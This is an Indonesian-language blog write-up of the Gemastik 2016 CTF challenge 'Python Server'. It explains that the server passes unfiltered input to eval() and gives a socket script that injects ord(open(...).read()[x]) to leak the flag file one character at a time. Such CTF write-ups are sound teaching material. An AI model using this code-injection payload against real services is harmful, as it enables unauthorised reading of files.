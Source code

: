 ```yaml
---
layout: post
title: "Writeup Gemastik 2016 : Python Server - 100"
description: "Writeup Gemastik 2016 Online Capture The Flag Qualification"
headline: 
modified: 2016-08-15
category: gemastik
tags: [gemastik,ctf]
imagefeature: /images/gemastik.png
mathjax: 
chart: 
comments: true
featured: false
---
```


### Problem :

![Python Server](/images/python-server.png)


### Solusi :

Di dalam source code yang di berikan ternyata terlihat input yang kita berikan di jalankan di dalam *eval()*

```python
    req.sendall("Dec to Hex Converter - Insert number : ")
    number = req.recv(512)[:-1]
    req.sendall(hex(eval(number)) + "\n")
```

input kita pun tidak di filter dan memungkinkan kita untuk menjalankan expression sesuka kita, di dalam source code juga
ada baris code ini `flag = open('PythonServer.flag').read()` terlihat bahwa flag tersimpan di PythonServer.flag 
kemudian kita gunakan `ord(open('PythonServer.flag').read()[0])` untuk mengambil per index dari file PythonServer.flag
dan mengirimkan dalam bentuk decimal nanti output nya dalam bentuk hex. untuk mempercepat dump flag kami gunakan python.

```python
import socket

s = "target.netsec.gemastik.ui.ac.id"
port = 13338

result = ""
sock = socket.socket()
sock.connect((s, port))

print sock.recv(2048)
print sock.recv(2048)
sock.send("guest\n")
sock.send("guest\n")
x = 0

print sock.recv(2048)

while True:
    print sock.recv(2048)
    sock.send("hex\n")
    print sock.recv(2048)
    sock.send("ord(open('PythonServer.flag').read()["+str(x)+"])\n")
    data = sock.recv(2048)
    if "Please insert number" in data :
        break
    flags = chr(int(data,16))
    result += flags
    print data
    x += 1    
    
print result.rstrip('\n')
```

![Python Server Flag](/images/python-server-flag.png)
